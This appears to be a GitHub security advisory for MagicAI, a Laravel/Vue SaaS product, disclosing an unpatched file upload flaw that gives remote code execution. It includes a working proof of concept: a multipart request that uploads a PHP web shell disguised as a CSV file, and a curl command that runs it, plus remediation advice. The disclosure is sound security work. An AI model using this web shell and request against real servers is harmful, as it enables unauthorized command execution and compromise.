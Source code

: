 
# 🐚 MagicAI - Authenticated File Upload to RCE via Mimetype Manipulation 

📌 **Product Information**  
**Platform**: Laravel + Vue (SaaS)  
**Affected Feature**: File Upload on Chat File Analyzer  
**Tested Vulnerability**: Arbitrary File Upload via Mimetype Bypass  
**CVE**: Not Assigned  
**Severity**: Critical (RCE via file manager bypass)  
**CWE ID**: CWE-434  
**CWE Name**: Unrestricted Upload of File with Dangerous Type  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: July 28, 2025  
**Researcher**: yucaerin  
**Vendor**: [liquidthemes](https://codecanyon.net/user/liquidthemes)  
**Product Link**: [MagicAI SaaS - Chat, Image, Code Generator](https://codecanyon.net/item/magicai-openai-content-text-image-chat-code-generator-as-saas/45408109)

---

⚠️ **Summary of the Vulnerability**  
MagicAI’s document analyzer feature allows users to upload `.csv` or document files. The backend does **not** sufficiently validate file content against its declared mimetype. As a result:

- Attacker can upload a PHP file disguised as a `.csv` (e.g., `shell.csv` with `Content-Type: text/csv`)
- File gets stored in a publicly accessible folder or accessible via File Manager
- Remote command execution is possible if file is executed on server

## 🧪 Proof of Concept (PoC)

### ➤ Step 1 - Upload Malicious File via Analyzer Endpoint

```http
Content-Disposition: form-data; name="category_id"

15
------WebKitFormBoundary
Content-Disposition: form-data; name="doc"; filename="shell.csv"
Content-Type: text/csv

﻿host
<?php system($_GET['cmd']); ?>
------WebKitFormBoundary
Content-Disposition: form-data; name="type"

yucaerin/csv.php
aa
------WebKitFormBoundary--
```

### ➤ Step 2 - Trigger the Uploaded Payload

Assuming upload path is known or predictable:
```bash
curl https://target.com/uploads/temp.yucaerin/csv.php?cmd=id
```

✅ **Indicators of Success**:
- `uid=33(www-data)` or similar command output in response
- File accessible via web

## 🔍 Where’s the Flaw?
- Trusting client-supplied `Content-Type`
- No backend file signature validation
- Lack of strict file extension whitelist + file content inspection

## 🔐 Recommendation
- Validate mimetype **and** content on backend
- Only allow `.csv`, `.txt`, `.docx` with MIME and magic-byte checking
- Store uploads outside webroot or apply `.htaccess` deny execution
- Use Laravel’s `Storage::putFileAs()` with proper file visibility control

## ⚙️ Optional Automation Features
A script or tool can:
- Upload multiple payloads with varying extensions
- Search predictable upload paths
- Trigger RCE via GET parameter

## 🛑 Affected Versions
- MagicAI (as of July 2025) – no file upload protection on analyzer
- Deployment with file write permission + public path = vulnerable

## ⚠️ Disclaimer  
This PoC is for **educational and authorized security testing** only.  
Do **not** test on systems you don’t own or don’t have permission to analyze.  
Unauthorized access is illegal and unethical.
